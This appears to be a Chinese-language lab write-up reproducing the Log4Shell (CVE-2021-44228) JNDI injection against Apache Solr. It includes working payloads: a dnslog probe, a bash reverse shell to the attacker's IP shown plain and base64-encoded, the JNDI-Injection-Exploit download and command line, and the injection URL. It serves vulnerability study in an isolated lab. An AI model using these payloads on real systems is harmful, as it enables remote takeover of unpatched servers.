




CVE-2021-44228漏洞复现
Apache Log4j2简介
Apache Log4j 是一款开源的 Java 日志记录工具，大量的业务框架都使用了该组件。Apache Log4j2 是 Log4j 的升级版
漏洞范围
受影响的组件包含但不限于：
- Apache Struts2
- Apache Solr
- Apache Druid
- Apache Flink
- Apache Flume
- Apache Dubbo
- Apache Kafka
- Spring-boot-starter-log4j2
- ElasticSearch
受影响版本：
Log4j 2.0到2.14.1
漏洞简介
Log4j2存在JNDI注入漏洞，具体来说，log4j2中的lookup接口是用来查询日志的，lookup可以调用JNDI服务，JNDI服务能够调用LDAP和RMI等，LDAP是目录服务，轻量级目录访问协议。通过传入类似于${jndi:ldap://evil.com/example}的lookup用于进行JNDI注入，实现执行任意代码
环境搭建
搭建过程详见基于VirtualBox的网络攻防基础环境搭建
本次复现采用的环境：
| 测试环境 | IP |
|---|---|
| kali(攻击机) | 172.16.111.108 |
| ubuntu(靶机) | 172.16.111.120 |
| debian(网关) | 172.16.111.1 |
具体的网络环境如下
kali-attacker：


ubuntu-victim：


网关：


漏洞复现
ubuntu-victim：
1 | # 运行此漏洞环境 |

访问http://172.16.111.120:8983进入solr后台

利用JNDI发送DNS请求的payload为：${jndi:dns://${sys:java.version}.1lnmw0.dnslog.cn}
访问
http://172.16.111.120:8983/solr/admin/cores?action=${jndi:ldap://${sys:java.version}.1lnmw0.dnslog.cn}
可以查看java的版本为1.8.0，看到有请求访问记录，表明存在漏洞

kali-attacker：
攻击机kali下载JDNI注入工具
wget https://github.com/welk1n/JNDI-Injection-Exploit/releases/download/v1.0/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar

构造反弹shell指令的payload为：
bash -i >& /dev/tcp/172.16.111.108/8888 0>&1
其中，172.16.111.108是kali的ip，端口是等下nc监听的端口
要想java执行payloads，需要bash64编码一下，利用平台编码后得到
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTYuMTExLjEwOC84ODg4IDA+JjE=}|{base64,-d}|{bash,-i}

编码后的命令通过-C参数输入JNDI工具，-A参数指定攻击者的ip地址
1 | java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTYuMTExLjEwOC84ODg4IDA+JjE=}|{base64,-d}|{bash,-i}" -A 172.16.111.108 |
得到了rmi、ldap参数，并列出日志信息

同时在kali攻击机再新建一个窗口，用来监听8888端口

ubuntu-victim：
采用上述的ldap参数，在受害者主机上构造并访问
http://172.16.111.120:8983/solr/admin/cores?action=${jndi:ldap://172.16.111.108:1389/tp7qti}

kali-attacker：
查看此时的JNDI日志记录

kali监听端口成功接收反弹shell

参考
Apache Log4j2 lookup JNDI 注入漏洞
【vulhub】Log4j2：CVE-2021-44228漏洞复现